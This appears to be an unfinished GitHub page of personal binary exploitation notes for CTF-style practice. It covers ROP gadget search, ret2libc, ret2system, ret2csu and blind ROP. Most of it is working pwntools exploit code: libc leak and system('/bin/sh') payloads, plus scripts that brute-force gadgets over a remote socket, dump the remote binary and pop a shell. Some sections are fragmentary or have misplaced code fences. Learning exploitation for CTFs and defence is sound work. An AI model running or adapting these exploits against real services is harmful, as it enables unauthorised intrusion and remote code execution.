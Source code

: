 
### in progress


# ROP
# how to find Gadgets (Ropper)
read the docs!
https://github.com/sashs/Ropper

Ropper is a tool that can display information about binary files in different file formats and can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64).

most usefull commands imo.

`(ropper) file vuln_binary` loads the specified binary into cache and analyze it than cleans up double gadgets. \
`(ropper) search /1/ pop r??` /1/ = search for gadgets with max 1 instruction + ret  \
? means non specific char so this will search for `pop rax`&`pop rdi`&`pop rsi` and so on \
`(ropper) semantic eax==1 !ebx` searches for a gadget that set eax to 1 and does not clobber ebx

# how to find Strings in an ELF	
searching manually
`strings -t x -a /path/to/binary | grep "string you searching"`

in a pwntools script
```
binary = ELF('/path/to/binary')
string = next(libc.search(b'string you searching'))
```

# how to pivote the Stack
in progress
# ret2techniques
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>

# ret2libc (dynamically linked ELF)
to use ret2libc we need to know two things
	
1. the exact libc version the ELF uses
2. the base addr of libc in the process
		

to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
(we also need this for finding the base of libc in the process)

since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)
```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
payload += p64(puts@GOT)		#addr puts@GOT
payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
```

this payload will print the libc addr of puts() in the current process.
puts_leak = `leaked addr here`

ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.
we will use a libc database like https://libc.blukat.me/ to find the exact version
libc.blukat will find the libc based of the last 3 nibbles of the leaked addr since these will always be the same 
		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/libc_blukat.png">

usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
use `vmmap` to find the libc base

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000402000 0x0000000000403000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000403000 0x0000000000404000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000405000 0x0000000000426000 0x0000000000000000 rw- [heap]
0x00007ffff7dbc000 0x00007ffff7de1000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de1000 0x00007ffff7f59000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f59000 0x00007ffff7fa3000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa3000 0x00007ffff7fa4000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa4000 0x00007ffff7fa7000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa7000 0x00007ffff7faa000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faa000 0x00007ffff7fb0000 0x0000000000000000 rw- 
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000000000 r-- [vvar]
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```

know_libc_base = `libc base here`		

offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
libc_base = puts_leak - offset

ok we now know the libc version and the exact libc_base inside the current process.
now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

1. setup the argument for system(pointer_binsh) 
2. call the libc function system()

```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
payload += p64(system)			#call the libc system function
```

</div>
</details>

<details>
    <summary>ret2system (statically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
`syscall(rax,rdi,rsi,rdx)`	
we want to call `execve(pointer_binsh,0,0)` to spawn a shell

so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
1. find the syscall number for execve
2. find a gadget that can write to a pointer like `mov [rdi],rdx`
3. write b'/bin/sh\x00' to a writable addr.
4. setup the registers and than syscall

syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit	`
we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`
we need a gadget that can write to a pointer to write `/bin/sh\x00` string somewhere
we can find such a gadget by using `ropper`

```
ropper /1/ mov [r??],r??
```		
i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.


```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rax)			#set rax to 0x3b
payload += p64(0x3b)
payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
payload += p64(.bss)			#addr where we want to write to
payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
payload += p64(pop_rsi)			#set rsi to 0
payload += p64(0x00)
payload += p64(pop_rdx)			#set rdx to 0
payload += p64(0x00)
payload += p64(syscall)				
```


</div>
</details>

<details>
    <summary>ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)

the `__libc_csu_init` function is responsible to initialize libc files.
in this function there are some interesting gadgets we can use.

first gadget let us controll some registers with pop

POPGADGET:
his will let us controllrbx,rbp,r12,r13,r14,r15
```
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```

CALLGADGET:
this will let us controll rdx,rsi and edi but we need to meet some conditions 
```         
__libc_csu_init+64	MOV        RDX,R14
__libc_csu_init+67 	MOV        RSI,R13
__libc_csu_init+70 	MOV        EDI,R12D
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
__libc_csu_init+86	ADD        RSP,0x8
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
__libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```


there ase some constrains in the caller gadget 
1.
we want to pass the JNE and dont take it.
```
rbx = 0x00 set to 0 since it will be incremented later
rbp = set to 1 so when compared to the incremented rbx 
```

```
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
```
2.
we want to set r15 = to a valide function pointer rbx will be 0x00
```
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
```


```
putsgot = elf.got['puts']          
putsplt = elf.plt['puts']
pop_rdi = 0x00000000004011f3
pop_rsi_r15 = 0x00000000004011f1
ret = 0x4004e6

def ret2csu(call,rdi,rsi,rdx):
    payload = p64(0x4011ea)         # first call popper gadget

    payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
    payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
    payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
    payload += p64(rsi)            # pop r13 #rsi
    payload += p64(rdx)            # pop r14 #rdx
    payload += p64(putsgot)            # pop r15 

    payload += p64(0x4011d0)        # 2nd call caller gadget

        #__libc_csu_init+64     MOV        RDX,R14
        #__libc_csu_init+67     MOV        RSI,R13
        #__libc_csu_init+70     MOV        EDI,R12D

    payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


        #__libc_csu_init+90     POP        RBX
        #__libc_csu_init+91     POP        RBP
        #__libc_csu_init+92     POP        R12
        #__libc_csu_init+94     POP        R13
        #__libc_csu_init+96     POP        R14
        #__libc_csu_init+98     POP        R15
        #__libc_csu_init+100    RET

    payload += p64(0x00)            # rbx
    payload += p64(0x00)            # rbp
    payload += p64(0x00)            # r12
    payload += p64(0x00)            # r13
    payload += p64(0x00)            # r14
    payload += p64(0x00)            # r15

        #__libc_csu_init+100    RET

    payload += p64(pop_rdi)        
    payload += p64(rdi)             # update rdi with correct unconstrained content
    payload += p64(pop_rsi_r15)     
    payload += p64(rsi)             # update rsi with correct unconstrained content
    payload += p64(0x00)

        #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

    payload += p64(call)            # actual wanted function call
    return payload

    rop = b'A'*16
    rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)

```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>

# ret2dl_resolve
in progress

# Blind Return Oriented Programming
<details>
    <summary>BROP (dont have the binary // PIE off)</summary>
        <div>


Steps of Exploitation:

Puts/Printf() when fd is 0,1,2 stdin,stdout,stderror
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find puts@plt
4. leak the binary

write() when fd is not 0,1,2 stdin,stdout,stderror (when we connect to the binary throu a socket)
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find strcmp@PLT (strcmp sets rdx to the number of matching chars) ### erklären wie strcmp funktioniert
4. find write@PLT (let us write to any fd)
5. leak the binary

### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200				#we know PIE is off // 0x400000 cause x64 binarys start here + 0x200 for headers
		
    payload = b'A'*88					#pad
    payload += p64(addr_guess)				#rip

    r.readuntil(b'Are you blind my friend?\n')		#read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()					#trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:		#if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)				
        else:
            print(check)					#if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())						#than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])				#prints the error
        print(i)						#prints the iterator
        r.close()


for i in range(0x2000): 					
    loop = find_loop_gadget(i)					
    if loop:							
        print(f'found loop_gadget @ {hex(loop)}')
        break							#remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200  					#we know PIE is off // 0x400000 cause x64 binarys start here + 0x200 for headers

    payload = b'A'*88						#pad
    payload += p64(addr_guess)					#rip 
    payload += p64(0x00)					#setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)					#loop back to main

    r.recvuntil(b'Are you blind my friend?\n')			#read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()					#trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:		#if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
           							#2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88				#pad
                payload += p64(addr_guess)			#rip
                payload += p64(0x00)				#setup stack
                payload += p64(0x00)	
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)         			# one extra 0x00 to crash it ret to 0x00 is allways a crash  
		payload += p64(loop)				# if it still prints 'Are you blind my friend?\n' its the wrong guess addr
		
		p.recvuntil(b'Are you blind my friend?\n')	#read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)					
                
		try:
               	    check2 = r.recvline()			#try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2: 					#if we can recv something addr guess are wrong
                        print('not passed check2')
                        p.close()
                        r.close()

                except:						#we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:							#if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()					#close connection
    except:							#if we crash during first payload
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break
    
pop_rdi = int(brop) + 0x9
pop_rsi_r15 = int(brop) + 0x7
















```


def find_puts_gadget(i):


    r = remote(ip, port,timeout=1)
    

    rb = lambda x :r.recvb(x)
    rl = lambda : r.recvline()
    ru = lambda x :r.recvuntil(x)
    rlub = lambda x :r.recvuntilb(x)
    s = lambda x :r.send(x)
    sl = lambda x : r.sendline(x)
    sla = lambda x,y : r.sendlineafter(x,y)
    inter = lambda : r.interactive()



    addr_guess = i*0x10 + 0x400200

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(0x400000) #should print out 'ELF' at this addr
    payload += p64(addr_guess)


    s(payload)
    ru('Are you blind my friend?\n')


    try:
        check = rl()
        if b'ELF' in check:
            r.close()
            return addr_guess
        else:
            print(check)
    except:
        print(sys.exc_info()[0])
        print(i)
        r.close()

def find_strcmp(i):
    
    r = remote(ip, port,timeout=1)
    

    rb = lambda x :r.recvb(x)
    rl = lambda : r.recvline()
    ru = lambda x :r.recvuntil(x)
    rlub = lambda x :r.recvuntilb(x)
    s = lambda x :r.send(x)
    sl = lambda x : r.sendline(x)
    sla = lambda x,y : r.sendlineafter(x,y)
    inter = lambda : r.interactive()

    test = i*0x10 + 0x400200

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(0x400000)
    payload += p64(pop_rsi_r15)
    payload += p64(0x400000)
    payload += p64(0x400000)
    payload += p64(test)
    payload += p64(loop)
    ru('Are you blind my friend?\n')
    s(payload)
    

    try:
        check = rl()
        if b'Are you blind my friend?\n' in check:
            r.close()
            print('\n1st check passed good:good')
            
            print(f'2nd check for {hex(test)} good:bad')
            p = remote(ip,port,timeout=1)

            payload = b'A'*88
            payload += p64(pop_rdi)
            payload += p64(0x400000)
            payload += p64(pop_rsi_r15)
            payload += p64(0x0)
            payload += p64(0x0)
            payload += p64(test)
            payload += p64(loop)        
            p.readuntil('Are you blind my friend?\n')
            p.send(payload)
                
            try:
                check2 = rl()

                if check2: 
                    print('not passed check2')
                    p.close()
                else:
                    print('not passed check2')
                    p.close()

            except:
                r.close()
                p.close()
                print(f'3nd check for {hex(test)} bad:good')
                p = remote(ip,port,timeout=1)

                payload = b'A'*88
                payload += p64(pop_rdi)
                payload += p64(0x0)
                payload += p64(pop_rsi_r15)
                payload += p64(0x400000)
                payload += p64(0x0)
                payload += p64(test)
                payload += p64(loop)         
                p.readuntil('Are you blind my friend?\n')
                p.send(payload)

                try:
                    check3 = rl()

                    if check3: 
                        print('not passed check3')
                        p.close()
                    else:
                        print('not passed check3')
                        p.close()

                except:
                    p.close()
                    print(f'4rd check for {hex(test)} bad:bad')
                    p = remote(ip,port,timeout=1)

                    payload = b'A'*88
                    payload += p64(pop_rdi)
                    payload += p64(0x0)
                    payload += p64(pop_rsi_r15)
                    payload += p64(0x0)
                    payload += p64(0x0)
                    payload += p64(test)
                    payload += p64(loop)         
                    p.readuntil('Are you blind my friend?\n')
                    p.send(payload)
                    try:
                        check4 = rl()

                        if check4: 
                            print('not passed check4')
                            p.close()

                        else:
                            print('not passed check4')
                            p.close()


                    except:
                        p.close()
                        print(sys.exc_info()[0])
                        return test

        else:
            r.close()
    except:
        print(sys.exc_info()[0])
        print(hex(test))
        r.close()

def leak(i):


    r = remote(ip, port,timeout=1)
    

    rb = lambda x :r.recvb(x)
    rl = lambda : r.recvline()
    ru = lambda x :r.recvuntil(x)
    rlub = lambda x :r.recvuntilb(x)
    s = lambda x :r.send(x)
    sl = lambda x : r.sendline(x)
    sla = lambda x,y : r.sendlineafter(x,y)
    inter = lambda : r.interactive()


    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(i)
    payload += p64(puts)


    s(payload)
    rl()
    leak = unpack(rl()[:-1],'all')
    return leak

def leak_binary(i,j):


    r = remote(ip, port,timeout=1)
    

    rb = lambda x :r.recvb(x)
    rl = lambda : r.recvline()
    ru = lambda x :r.recvuntil(x)
    rlub = lambda x :r.recvuntilb(x)
    s = lambda x :r.send(x)
    sl = lambda x : r.sendline(x)
    sla = lambda x,y : r.sendlineafter(x,y)
    inter = lambda : r.interactive()

    x = i + j

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(x)
    payload += p64(puts)


    s(payload)


    rl()
    try:
        check = rl()
        if check:
            if check.hex()[:-2] == '':
                file.append(b'\x00')
                r.close()
                return int(offset) + 1

            else:
                file.append(check[:-1])
                last_len = int(len(check)-1)
                r.close()
                return int(offset) + int(last_len)


                
            
        else:
            r.close()
    except:
        print(sys.exc_info()[0])
        r.close()
        return int(offset + 1)


def pwn():

    #context.log_level = 'debug'

    r = remote(ip, port,timeout=1)
    

    rb = lambda x :r.recvb(x)
    rl = lambda : r.recvline()
    ru = lambda x :r.recvuntil(x)
    rlub = lambda x :r.recvuntilb(x)
    s = lambda x :r.send(x)
    sl = lambda x : r.sendline(x)
    sla = lambda x,y : r.sendlineafter(x,y)
    inter = lambda : r.interactive()



    pop_rdi = pop_rdi = int(brop) + 0x9
    ret = int(brop) + 10
    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(putsgot)
    payload += p64(puts+0x10)
    payload += p64(loop)
 

    ru('Are you blind my friend?\n')
    s(payload)


    leak = unpack(rl()[:-1],'all')
    print(hex(leak))
    libc.address = leak - libc.symbols['puts']

    print(hex(libc.address))

    ru('Are you blind my friend?\n')

    binsh = next(libc.search(b'/bin/sh\x00'))
    execve = libc.symbols['execve']
    system = libc.symbols['system']

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(system)

    s(payload)



    inter()


if __name__ == '__main__':

    
    print('now searching for brop_gadget')




    print('now searching for puts')                 #maybe printf will be a false true it works for most things but care when something crashes it could be this

    for i in range(0x50):
        puts = find_puts_gadget(i)
        if puts:
            print(f'found puts @ {hex(puts)}')
            break
            

    print('now searching for strcmp')
    for i in range(0x50):
            strcmp = find_strcmp(i)
            if strcmp:
                print(f'found strcmp @ {hex(strcmp)}')
                break


    puts_check = hex(libc.symbols['puts'])[-2::]

    for i in range(0x10):
        check = leak(0x601000+i*8)                   #found 0x601060 using 0x601000 cause page start allways scan full ranges
        print(f'{hex(0x601000+i*8)} : {hex(check)}')
        if hex(check)[12:] == puts_check:
            putsgot = (i*8+0x601000)
            print(f'puts_got @ {hex(putsgot)}')
            break

    
    # file = []
    # last_len = 0
    # offset = 0

    # for i in range(0xb00):
    #     offset = leak_binary(offset,0x400000)
    #     print(offset)
    #     print(f'{hex(i)}')


    # string1 = b''.join(file)

    # with open('binary_dump', 'wb') as out:
    #     out.write(string1)
    #     out.close()

    pwn()          #pops a shell

</div>
</details>

# SROP
in progress
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">

